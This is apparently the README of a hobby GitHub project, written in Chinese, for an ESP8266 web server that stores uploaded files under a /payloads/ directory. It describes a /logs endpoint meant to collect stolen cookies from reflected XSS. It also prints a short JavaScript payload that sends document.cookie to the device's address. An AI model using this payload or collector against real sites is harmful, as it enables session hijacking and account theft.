 # remote-payloads

> 大一的时候做着玩的，当时刚接触计算机，觉得互联网很神奇，一个小小的单片机借助内网穿透就能提供世界各地都能访问的服务。
> 现在觉得当时写的东西有些幼稚，但我不想删除这个仓库，我以后还会来看的。——2025.09.19

# ESP-01_FS_WEB

### esp8266闪存文件应用

[详见太极创客](http://www.taichi-maker.com/homepage/esp8266-nodemcu-iot/iot-c/spiffs/upload-files/)

### 使用的esp8266模块：

其他esp8266模块或开发板应该也行，只要有flash和WebServer库即可。

![esp8266.jpg](./img/esp8266.jpg)

### /index.html页面：

![/index.html](./img/index.html.png)

### /upload.html页面：

上传的文件将被存储在“/payloads/”根目录下。

![/upload.html](./img/upload.html.png)

### /delete.html页面：

只需要输入文件名如“logs”即可删除“/payloads/”+文件名如“/payloads/logs”文件，文件名不能包含“..”！

![/delete.html](./img/delete.html.png)

### /list操作：

列出/payloads/根目录下的所有文件夹和文件。

![/list](./img/list.png)

### /logs操作：

参数（GET或POST）将会被追加在/payloads/logs文件中，用于反射型XSS漏洞获取Cookie等。

xss_reflect.js举例：

```js
//通过指定的名称'img'创建img元素
var img = document.createElement('img');
img.width = 0;
img.height = 0;

//将cookie信息的字符串作为URI组件进行编码，然后用cookie参数传递
img.src = 'http://192.168.1.103/logs?cookie='+encodeURIComponent(document.cookie);
//将192.168.1.103换成你esp8266服务器的地址
```
